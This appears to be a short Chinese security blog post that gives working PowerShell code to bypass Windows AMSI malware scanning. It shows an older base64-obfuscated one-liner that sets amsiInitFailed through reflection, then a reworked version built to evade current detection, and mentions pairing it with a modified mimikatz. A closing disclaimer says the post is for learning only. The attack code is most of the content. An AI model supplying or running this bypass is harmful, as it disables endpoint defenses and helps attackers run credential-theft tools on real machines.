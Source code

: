 ![](https://gitee.com/fuli009/images/raw/master/public/20210904174318.png)

  

没关系，我们来bypass，之前有人利用的是base64：

  

  * 

    
    
    [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

  

但现在已经会被标记并查杀了，我们这里对他进行增强：

  

  *   *   *   *   *   *   *   *   * 

    
    
    function b64decode { param ($encoded)  $decoded = $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($en coded))  return $decoded }   $1 = b64decode("U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5BbXNpVXRpbHM=")   $2 = b64decode("YW1zaUluaXRGYWlsZWQ=")   $3 = b64decode("Tm9uUHVibGljLFN0YXRpYw==")   [Ref].Assembly.GetType($1).GetField($2,$3).SetValue($null,$true)

  

![]()

  

注：此类方法不太适合mimikatz，可以执行，但执行后便会被查杀。若非要使用，则最后使用变换过的mimikatz。

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904174319.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读
